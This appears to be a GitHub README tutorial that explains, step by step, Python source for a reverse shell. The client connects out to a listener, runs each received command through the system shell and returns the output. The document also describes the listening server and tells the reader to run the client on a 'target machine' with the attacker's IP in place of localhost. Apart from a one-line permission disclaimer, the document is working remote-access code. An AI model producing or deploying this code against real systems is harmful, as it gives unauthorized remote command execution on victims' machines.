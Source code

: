 # Reverse-Shell
mplementation of a reverse shell using socket programming to establish a client-server architecture for remote command execution. The server sends commands, and the client executes them and returns the output.


## 1. Import Required Libraries
```
import socket
import subprocess
```
* `socket`: Provides the tools to create network connections for communication between the client and server.
* `subprocess`: Allows the execution of shell commands on the client machine.


## 2. Define the Reverse Shell Function
```
def reverse_shell(host, port):
```
This function takes two arguments:
    * `host`: The IP address of the server to connect to.
    * `port`: The port on the server where the connection will be established.


## 3. Create and Connect a Socket
```
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
```
* `socket.socket`: Creates a socket object for network communication. The parameters `AF_INET` and `SOCK_STREAM` indicate that:
    * `AF_INET`: IPv4 addressing.
    * `SOCK_STREAM`: TCP protocol (reliable, connection-based communication).
* `s.connect((host, port))`: Initiates a connection to the specified server (`host`) and port.


## 4. Communication Loop
```
while True:
```
The client enters a loop where it continuously:
1. **Receives commands** from the server.
2. **Executes commands** on the local machine.
3. **Sends the output** of the commands back to the server.


5. Receive Commands from the Server
```
command = s.recv(1024).decode()
if command.lower() == "exit":
    break
```
* `s.recv(1024)`: Waits for a command from the server. The `1024` specifies the maximum size (in bytes) of the data to receive.
* `.decode()`: Converts the received data (bytes) into a string.
If the received command is `"exit"`, the loop breaks, and the connection is terminated.


## 6. Execute Commands Locally
```
try:
    output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
except subprocess.CalledProcessError as e:
    output = str(e).encode()
```
* `subprocess.check_output`: Executes the received command using the system shell.
    * `shell=True`: Executes the command through the shell.
    * `stderr=subprocess.STDOUT`: Redirects error output to standard output.
If the command execution fails (e.g., invalid command), a `CalledProcessError` is raised. The error details are converted to bytes using `.encode()` and stored in `output`.


## 7. Send Command Output to the Server
```
s.send(output)
```
* The result of the command execution (`output`) is sent back to the server using `s.send()`.


## 8. Exception Handling
```
except Exception as e:
    print(f"Error: {e}")
```
* Catches any runtime errors (e.g., network failure) and prints the error message for debugging.


## 9. Cleanup
```
finally:
    s.close()
```
* Ensures the socket is properly closed to free system resources, even if an error occurs.


## 10. Configure and Run the Reverse Shell
```
reverse_shell("127.0.0.1", 4444)
```
* `127.0.0.1`: Localhost (loopback address) for testing. Replace with the server's actual IP address for remote connections.
* `4444`: Port number to connect to. This must match the listening port on the server.

How It Works:
1. **Server Listening**: The server (not shown in this code) waits for incoming connections on a specified port.
2. **Client Connection**: The client (this script) initiates a connection to the server.
3. **Command Execution**: The server sends commands to the client, which executes them using the system shell.
4. **Result Return**: The client sends the output (or error message) back to the server.



# Server Listening Code (for Reverse Shell)

summary of how the server listening code would typically work, along with an explanation of its role in the reverse shell setup.

## How the Server Works:

1. ### Create and Configure the Server Socket:
    * `server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)`: Creates a socket using IPv4 addressing and TCP.
    * `server.bind((host, port))`: Binds the server socket to the specified host (IP address) and port.
    * `server.listen(1)`: Starts listening for incoming client connections. The 1 indicates the maximum number of queued connections.

2. ### Wait for Client Connection:
    * `conn, addr = server.accept()`: This method waits for a client to connect. Once the client connects, it returns a new socket (`conn`) for communication and the client's address (`addr`).

3. ### Command Input Loop:
    * The server enters a loop where it waits for the user to type a command (`command = input("Shell> ")`).
    * **If the command** is `exit`: The server sends this command to the client (`conn.send(command.encode())`), which tells the client to terminate the connection. The server then exits the loop and closes the connection.
    * **Otherwise**: The server sends the command to the connected client (`conn.send(command.encode())`).

4. ### Receive and Display Output from Client:
    * After sending a command, the server waits for the client to send back the result of the command using `conn.recv(4096)`.
    * The server then prints the result (`print(response)`), showing the command output or error received from the client.

5. ### Exception Handling and Cleanup:
    * The `try-except` block ensures that if any errors occur during communication (e.g., network failure), they are caught and printed.
    * The finally block ensures that the server socket is closed when the program exits.


## How to Use the Server with the Reverse Shell Client:

1. **Run the Server**: The server listens for incoming connections on the specified IP address (`0.0.0.0`) and port (`4444`). Replace `0.0.0.0` with the server’s actual IP address if connecting remotely.
2. **Run the Client (Reverse Shell)** : The client script (`reverse_shell` code) should be executed on the target machine (the client). It will automatically connect to the server at the specified IP address and port.
3. **Command Interaction**: Once the client connects, the server can send commands (like `ls`, `dir`, or `whoami`) to the client. The client executes the commands and sends back the output, which the server displays.
4. **Exit**: To terminate the connection, the server simply types `exit`, which sends the `exit` command to the client and closes the connection.


## Important Notes:
* **Security**: Reverse shells can be used for malicious purposes. Always ensure you have explicit permission when running this type of script.
* **Network Configuration**: Make sure the firewall or any network security settings on both the client and server machines allow the communication on the specified port (`4444` in this case).
